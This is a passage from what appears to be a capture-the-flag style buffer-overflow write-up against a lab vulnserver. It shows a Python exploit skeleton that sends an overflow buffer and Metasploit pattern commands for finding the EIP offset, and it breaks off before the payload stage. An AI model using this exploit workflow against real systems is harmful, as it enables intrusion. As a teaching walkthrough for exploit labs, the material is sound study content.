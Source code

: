 - - -
## Finding The Offset :

> [! Note] 
>  Attach the vulnserver to immunity-debbugger and run it.

• First create a **Exploit.py** script.
• Give right permissions.

```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending Haunted Evil buffer.:-D..")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect!!. :-( ")
```

Now we are going to find that where( At what point ) we overwrite the EIP.
To do this we are going to use this : 

```ruby
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l  3000
``` 

##### Note : write the crash-length + 400, So this will be better. 

Run the Tools and this will produce lot of Random chars. 
Copy this whole stuff. and paste it into the payload variable in the exploit.py script. 
![Imgur](https://i.imgur.com/j7vM4UY.png)

Now Run the exploit.py script and send the Evil Buffer.

Move to Debbugger and notice that we have overwritten EAX, ESP...and everything with some random-strings. 

Don't Forget Our Main Goal Is To Control The EIP. 
Note the EIP value and copy that. 

Now move on to you terminal. 
And Run This : 

```ruby
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb  -l  3000 -q  <EIP-Value>
```

![Imgur](https://i.imgur.com/cxVBW8E.png)

This will output the exact match. The point where we crashed the **EIP**. 
This information is critical. Because Now we have the offset which we can use to gain control over the **EIP**. 

> [! Note ] 
The offset is the point where we touched the EIP Border. 
The EIP is always 4 Bytes Long so next we will add “A” x <offset> + 4 x “B” 
And then ...



